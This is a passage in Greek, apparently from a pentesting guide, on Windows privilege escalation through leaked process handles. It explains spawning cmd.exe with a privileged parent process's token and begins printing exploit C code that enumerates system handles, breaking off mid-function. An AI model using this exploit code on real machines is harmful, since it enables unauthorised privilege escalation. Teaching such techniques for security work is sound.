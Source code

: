 ```c
getchar();

return 0;
}
```
### Exploit Example 2

{% hint style="info" %}
Σε ένα πραγματικό σενάριο πιθανότατα **δεν θα μπορείτε να ελέγξετε το δυαδικό αρχείο** που πρόκειται να εκτελεστεί από τον ευάλωτο κώδικα (_C:\users\username\desktop\client.exe_ σε αυτή την περίπτωση). Πιθανότατα θα **συμβιβάσετε μια διαδικασία και θα χρειαστεί να δείτε αν μπορείτε να αποκτήσετε πρόσβαση σε οποιοδήποτε ευάλωτο handle οποιασδήποτε προνομιούχου διαδικασίας**.
{% endhint %}

Σε αυτό το παράδειγμα, **αντί να εκμεταλλευτείτε το ανοιχτό handle για να εισάγετε** και να εκτελέσετε ένα shellcode, θα **χρησιμοποιηθεί το token της προνομιούχου διαδικασίας με το ανοιχτό handle για να δημιουργηθεί ένα νέο**. Αυτό γίνεται στις γραμμές από 138 έως 148.

Σημειώστε πώς η **λειτουργία `UpdateProcThreadAttribute`** χρησιμοποιείται με το **χαρακτηριστικό `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` και το handle της ανοιχτής προνομιούχου διαδικασίας**. Αυτό σημαίνει ότι το **δημιουργημένο νήμα διαδικασίας που εκτελεί \_cmd.exe**\_\*\* θα έχει το ίδιο προνόμιο token με την ανοιχτή διαδικασία handle\*\*.
```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <wincrypt.h>
#include <psapi.h>
#include <tchar.h>
#include <tlhelp32.h>
#include "client.h"
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")


HANDLE GetVulnProcHandle(void) {

ULONG handleInfoSize = 0x10000;
NTSTATUS status;
PSYSTEM_HANDLE_INFORMATION phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) malloc(handleInfoSize);
HANDLE hProc = NULL;
POBJECT_TYPE_INFORMATION objectTypeInfo;
PVOID objectNameInfo;
UNICODE_STRING objectName;
ULONG returnLength;
HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
DWORD dwOwnPID = GetCurrentProcessId();

pNtQuerySystemInformation = GetProcAddress(hNtdll, "NtQuerySystemInformation");
pNtDuplicateObject = GetProcAddress(hNtdll, "NtDuplicateObject");
pNtQueryObject = GetProcAddress(hNtdll, "NtQueryObject");
pRtlEqualUnicodeString = GetProcAddress(hNtdll, "RtlEqualUnicodeString");
pRtlInitUnicodeString = GetProcAddress(hNtdll, "RtlInitUnicodeString");

printf("[+] Grabbing handles...");

while ((status = pNtQuerySystemInformation( SystemHandleInformation, phHandleInfo, handleInfoSize,
NULL )) == STATUS_INFO_LENGTH_MISMATCH)
phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) realloc(phHandleInfo, handleInfoSize *= 2);

if (status != STATUS_SUCCESS)
```